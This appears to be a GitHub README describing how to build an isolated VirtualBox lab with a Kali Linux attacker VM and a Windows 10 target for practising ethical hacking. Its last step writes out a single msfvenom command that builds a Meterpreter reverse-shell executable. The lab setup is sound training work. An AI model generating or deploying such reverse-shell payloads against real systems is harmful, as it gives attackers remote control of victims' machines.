

# 🧪 Cybersecurity Home Lab Setup 
---

## 📄 Description

This project sets up a virtualized cybersecurity lab using VirtualBox to simulate attacker-victim scenarios. It includes configuring a Kali Linux attacker machine and a Windows 10 target machine on a host-only/internal network. The environment provides a safe and isolated setup for testing network attacks, reverse shells, and other ethical hacking techniques.

---

## 🖥️ Environments Used

- **Host OS**: Windows 10 or macOS
- **Virtualization**: VirtualBox (v7.x) + Extension Pack
- **Attacker VM**: Kali Linux
- **Target VM**: Windows 10 (Eval or ISO)

---

## 🛠️ Languages and Tools Used

- VirtualBox
- Kali Linux Tools (nmap, msfvenom, etc.)
- Windows Sysinternals
- Meterpreter (Metasploit Framework)

---

## ⚙️ Program Walkthrough

---

### 1. Install VirtualBox & Extension Pack

Install Oracle VirtualBox and its Extension Pack from [virtualbox.org](https://www.virtualbox.org/).

📸 *Screenshot Example:*  


---

### 2. Create Virtual Machines

Create two VMs with these specs:

| VM        | RAM    | Disk Size | OS         |
|-----------|--------|-----------|------------|
| Kali      | 2 GB   | 20 GB     | Kali Linux |
| Windows   | 4 GB   | 40+ GB    | Windows 10 |

📸 *Screenshot Example:*  


---

### 3. Configure Network (Host-Only)

Set both VMs to the **Host-Only Adapter** to allow isolated communication.

📸 *Screenshot Example:*  


---

### 4. Boot VMs and Set IP Addresses

Use `ip a` on Kali and `ipconfig` on Windows to confirm both VMs are on the same subnet.

📸 *Screenshot Example:*  
  


---

### 5. Install Guest Additions (Windows Only)

Fix resolution on Windows VM by installing Guest Additions.

📸 *Screenshot Example:*  


---

### 6. Test Connectivity

Ping each machine from the other to confirm they’re connected.

📸 *Screenshot Example:*  


---

### 7. Generate & Deploy Payload (Optional Preview)

In later parts, we generate a reverse shell using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.101 lport=4444 -f exe > shell.exe

